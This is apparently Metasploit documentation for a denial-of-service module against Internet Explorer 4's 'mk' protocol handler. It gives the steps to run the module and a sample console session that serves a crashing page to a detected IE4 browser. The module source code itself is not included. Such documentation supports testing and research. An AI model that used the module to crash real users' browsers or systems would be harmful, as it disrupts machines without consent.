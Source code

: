 ## Vulnerable Application

This module exploits a vulnerability found in Microsoft Internet Explorer 4 and
4.01 on Windows 95 OSR1, OSR2, and NT Workstation/Server.

A heap based buffer overflow in the handling of the 'mk' protocol can lead to remote
code execution.  However, due to the age of the vulnerability, and the relatively
rigid offset requirements based on IE version, the bug is simply put as a DoS as
no one should be using IE4 in 2020+.

This DoS will also crash the Active Desktop, and potentially Windows itself.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/browser/ie_mk_handler_dos`
1. Do: `run`
1. Do: Browse to the URL with IE4
1. IE4/4.01 (and the Active Desktop) will crash.  Windows may also crash

## Options

## Scenarios

### IE 4.01 on Windows 95

```
msf5 > use auxiliary/dos/browser/ie_mk_handler_dos
msf5 auxiliary(dos/browser/ie_mk_handler_dos) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(dos/browser/ie_mk_handler_dos) > 
[*] Using URL: http://0.0.0.0:8080/v4o58g7d4IJX
[*] Local IP: http://192.168.2.199:8080/v4o58g7d4IJX
[*] Server started.
[+] Vulnerable IE detected: Mozilla/4.0 (compatible; MSIE 4.01; Windows 95)
[*] Sending HTML...
```

![image (2)](https://user-images.githubusercontent.com/752491/89100925-5a97b380-d3c9-11ea-84db-cb72e9eb658c.png)
![image (3)](https://user-images.githubusercontent.com/752491/89100926-5cfa0d80-d3c9-11ea-86fe-371a518fce19.png)
